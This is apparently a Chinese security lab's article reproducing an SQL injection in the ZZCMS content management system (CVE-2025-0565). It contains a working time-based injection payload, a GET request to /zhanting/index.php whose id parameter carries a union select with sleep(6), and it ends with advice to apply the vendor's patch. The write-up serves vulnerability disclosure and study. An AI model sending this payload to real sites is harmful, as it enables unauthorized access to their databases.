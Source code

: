 #  【成功复现】ZZCMS系统SQL注入漏洞(CVE-2025-0565)   
原创 弥天安全实验室  弥天安全实验室   2025-06-04 12:04  
  
#   
  
网安引领时代，弥天点亮未来    
   
  
  
  
  
  
   
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x00写在前面**  
  
**本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！**  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x01漏洞介绍**  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCwy4Sue7DLsM4sFEnx9msso5gPh3OdnobzIVXZUCUB8a1LU6VCxJK3j0JvjiauTMocsHyfWHfUsKg/640?wx_fmt=png&from=appmsg "")  
  
ZZCMS是中国ZZCMS团队的一套内容管理系统（CMS）。  
ZZCMS是一款功能强大且灵活的内容管理系统，专为企业和个人用户设计，旨在简化网站建设与管理流程。它提供了丰富的模块和插件，支持多种网站类型，如企业官网、电商平台、博客等。  
  
ZZCMS存在注入漏洞，该漏洞源于/index.php页面的id参数包含一个SQL注入漏洞。  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x02影响版本**  
  
  
    
ZZCMS 2023  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCwy4Sue7DLsM4sFEnx9mss5ax6ADddOibViaXAkdfODA1ls2TsWyaib3GzjtF7ytSPNibGvSBv6xJZxw/640?wx_fmt=png&from=appmsg "")  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x03漏洞复现**  
  
1.访问漏洞环境  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCwy4Sue7DLsM4sFEnx9msskV6YCyXVJu1b0nt64NU75N0CIL2M2MTHAada34tHY3YBNSyzsOPjbg/640?wx_fmt=png&from=appmsg "")  
  
2.对漏洞进行复现  
  
   
**POC**  
  
漏洞复现  
```
GET /zhanting/index.php?id=1'union+select+1,2,3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30,31,32,33,34,35,36,sleep(6)+--+x&skin= HTTP/1.1
Host: 127.0.0.1
```  
  
     通过sleep函数睡眠6秒判断漏洞存在  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCwy4Sue7DLsM4sFEnx9mssKYOYe8tRx3TmcICLUSMicfUeTcf2e88H6U43rpqqy2TicGKygaUqUwyg/640?wx_fmt=png&from=appmsg "")  
  
  
3.Yakit插件  
测试  
  
![](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hCwy4Sue7DLsM4sFEnx9mssLZlQJJicz0tib0mtMpdHh82icgOwrDJ4P3cl7vhR5hLpXKib7zlUjhufxw/640?wx_fmt=png&from=appmsg "")  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_png/MjmKb3ap0hDCVZx96ZMibcJI8GEwNnAyx4yiavy2qelCaTeSAibEeFrVtpyibBCicjbzwDkmBJDj9xBWJ6ff10OTQ2w/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
**0x04修复建议**  
  
  
目前厂商已发布升级补丁以修复漏洞，补丁获取链接：  
  
建议尽快升级修复漏洞，再次声明本文仅供学习使用，非法他用责任自负！                       
```
http://bjp.zzcms.net/
https://github.com/En0t5/vul/blob/main/zzcms/zzcsm-sql-inject.md
```  
  
  
  
弥天简介  
  
学海浩茫，予以风动，必降弥天之润！弥天安全实验室成立于2019年2月19日，主要研究安全防守溯源、威胁狩猎、漏洞复现、工具分享等不同领域。目前主要力量为民间白帽子，也是民间组织。主要以技术共享、交流等不断赋能自己，赋能安全圈，为网络安全发展贡献自己的微薄之力。  
  
口号 网安引领时代，弥天点亮未来  
  
  
  
![Image](https://mmbiz.qpic.cn/mmbiz_gif/b96CibCt70iaaqjXT4YxgHVARD1NNv0RvKtiaAvXhmruVqgavPY3stwrfvLKetGycKUfxIq3Xc6F6dhU7eb4oh2gg/640?wx_fmt=gif&wxfrom=5&wx_lazy=1&tp=webp "")  
  
   
  
  
知识分享完了  
  
喜欢别忘了关注我们哦~  
  
学海浩茫，  
  
予以风动，  
  
必降弥天之润！  
  
   弥  天  
  
安全实验室  
  
![Image](https://mmbiz.qpic.cn/mmbiz_jpg/MjmKb3ap0hDyTJAqicycpl7ZakwfehdOgvOqd7bOUjVTdwxpfudPLOJcLiaSZnMC7pDDdlIF4TWBWWYnD04wX7uA/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
  
  
  
